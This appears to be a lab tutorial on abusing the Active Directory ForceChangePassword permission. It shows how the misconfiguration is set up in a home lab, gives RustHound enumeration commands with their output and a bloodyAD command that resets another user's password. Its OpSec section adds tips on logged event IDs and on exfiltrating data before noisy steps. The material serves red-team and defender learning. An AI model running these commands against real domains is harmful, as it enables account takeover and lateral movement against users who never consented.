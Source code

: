# 🔐 ForceChangePassword

This edge indicates that the principal can reset the password of the target user without knowing the current password of that user.

### When This Abuse Occurs

This abuse can be carried out when controlling an object that has **GenericAll**, **AllExtendedRights**, or **User-Force-Change-Password** privileges over the target user.

### Setting Misconfiguration for This

1. **Create a user** `martin`.

2. **Now we want user `jack` to have a forced password change on user `martin`**.

3. Go to the properties of **user martin** and click **Add**.

   ![Error loading Image](Imgs/image1.png)

4. Enter **user jack** and click **OK**.

   ![Error loading Image](Imgs/image2.png)

5. In the **Permissions** checkbox, check **Change Password** and **Reset Password**.

   ![Error loading Image](Imgs/image3.png)

## Enumeration for ForceChangePassword

I will use **RustHound** for data collation, but you can also use **python-bloodhound** or any other tool.

```bash
rusthound --domain furious.local -u jack -p complex1@ --output .
````

```bash
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/forced-password-change]
└─$ rusthound --domain furious.local -u jack -p complex1@ --output .

---------------------------------------------------
Initializing RustHound at 00:31:03 on 05/08/25
Powered by g0h4n from OpenCyber
---------------------------------------------------

[2025-05-08T04:31:03Z INFO  rusthound] Verbosity level: Info
[2025-05-08T04:31:03Z INFO  rusthound::ldap] Connected to FURIOUS.LOCAL Active Directory!
[2025-05-08T04:31:03Z INFO  rusthound::ldap] Starting data collection...
[2025-05-08T04:31:04Z INFO  rusthound::ldap] All data collected for NamingContext DC=furious,DC=local
[2025-05-08T04:31:04Z INFO  rusthound::json::parser] Starting the LDAP objects parsing...
[2025-05-08T04:31:04Z INFO  rusthound::json::parser::bh_41] MachineAccountQuota: 10
⢀ Parsing LDAP objects: 22%                                                                                                                      [2025-05-08T04:31:04Z INFO  rusthound::json::parser::bh_41] ADCS found DC=local,DC=furious,CN=furious-DC01-FURIOUS5-CA, use --adcs args to collect the certificate templates and certificate authority.
[2025-05-08T04:31:04Z INFO  rusthound::json::parser::bh_41] ADCS found DC=local,DC=furious,CN=furious-DC01-FURIOUS5-CA, use --adcs args to collect the certificate templates and certificate authority.
[2025-05-08T04:31:04Z INFO  rusthound::json::parser::bh_41] ADCS found DC=local,DC=furious,CN=furious-DC01-FURIOUS5-CA, use --adcs args to collect the certificate templates and certificate authority.
[2025-05-08T04:31:04Z INFO  rusthound::json::parser] Parsing LDAP objects finished!
[2025-05-08T04:31:04Z INFO  rusthound::json::checker] Starting checker to replace some values...
[2025-05-08T04:31:04Z INFO  rusthound::json::checker] Checking and replacing some values finished!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 11 users parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_users.json created!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 62 groups parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_groups.json created!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 2 computers parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_computers.json created!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 2 ous parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_ous.json created!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 1 domains parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_domains.json created!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 2 gpos parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_gpos.json created!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] 21 containers parsed!
[2025-05-08T04:31:04Z INFO  rusthound::json::maker] ./20250508003104_furious-local_containers.json created!

RustHound Enumeration Completed at 00:31:04 on 05/08/25! Happy Graphing!
```

 In the OutBound Object Control of User `Jack`, we can see that **User Jack** has the **ForceChangePassword** permission over **User Martin**.

![Error loading Image](Imgs/image4.png)


## Abusing the Attack

Once we’ve identified that user `jack` has the right to forcefully change the password of `martin`, we use **BloodyAD** to execute the attack.

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set password "$TargetUser" "$NewPassword"
```

Example:

```bash
bloodyAD --host "192.168.129.140" -d "furious.local" -u "jack" -p "complex1@" set password "martin" "NewPassword@123"
[+] Password changed successfully!
```

**Explanation:**

This attack abuses the **ForceChangePassword** permission, which allows an attacker to reset a user's password **without knowing their current password**. Once the password is changed, the attacker can impersonate the target user and access resources in the domain using their new credentials.

---

## OpSec Consideration

* **Password reset events** are typically logged (Event ID **4723**, **4724**, or **628** depending on the environment).
* Resetting a password without the user’s knowledge **locks them out** and can **raise suspicion quickly**.
* Ensure you understand the **impact** and have proper authorization before conducting this operation during a red team or pentest engagement.
* Consider exfiltrating useful data before triggering such **noisy** actions, or use it only as a **last resort** for lateral movement.

---

















